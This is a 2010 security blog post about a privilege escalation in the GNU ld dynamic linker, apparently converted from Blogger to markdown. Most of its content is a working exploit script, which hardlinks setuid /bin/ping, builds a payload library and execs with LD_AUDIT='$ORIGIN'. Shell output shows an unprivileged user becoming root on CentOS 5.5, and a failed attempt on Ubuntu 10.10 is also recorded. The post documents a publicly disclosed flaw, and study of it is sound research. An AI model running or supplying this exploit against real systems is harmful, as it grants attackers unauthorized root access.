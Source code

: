 ```yaml
---
layout: post
title: GNU ld privilege escalation
date: '2010-10-19T09:41:00.002+02:00'
author: Xavier Garcia
tags:
- escalation
- ld
- Linux
- setuid
modified_time: '2010-10-19T09:52:24.823+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-5464869096932934004
blogger_orig_url: http://www.shellguardians.com/2010/10/gnu-ld-privilege-escalation.html
---
```

Following this [post](http://seclists.org/fulldisclosure/2010/Oct/257) in a full disclosure list, I know about the privilege escalation  in the GNU ld linker.  
  
Some how, it seems to be RedHat centric or a didn't manage to make it work in Debian/Ubuntu.  
  
This is the exploit being executed in an up to date Centos 5.5  

``` 
bash-3.2$ ls  
exploit  payload.c  test.sh  
bash-3.2$ cat test.sh  
rm -rf /tmp/exploit  
mkdir /tmp/exploit  
ln /bin/ping /tmp/exploit/target  
exec 3< /tmp/exploit/target  
rm -rf /tmp/exploit/  
gcc -w -fPIC -shared -o /tmp/exploit payload.c  
LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3  
  
bash-3.2$ id  
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=root:system_r:unconfined_t:SystemLow-SystemHigh  
bash-3.2$ sh test.sh  
[root@localhost tmp]# cat /etc/redhat-release  
CentOS release 5.5 (Final)  
[root@localhost tmp]# id  
uid=0(root) gid=99(nobody) groups=99(nobody) context=root:system_r:unconfined_t:SystemLow-SystemHigh  
[root@localhost tmp]#  
```
  
It does  not seem to work in Ubuntu 10.10:  

``` 
msk@ubuntu:/tmp$ sudo sysctl -w kernel.yama.protected_sticky_symlinks=0  
kernel.yama.protected_sticky_symlinks = 0  
msk@ubuntu:/tmp$ sudo sysctl -w kernel.yama.protected_nonaccess_hardlinks=0  
kernel.yama.protected_nonaccess_hardlinks = 0  
msk@ubuntu:/tmp$ sh test.sh  
Inconsistency detected by ld.so: dl-open.c: 232: dl_open_worker: Assertion `(call_map)->l_name[0] == '\0'' failed!  
msk@ubuntu:/tmp$
```
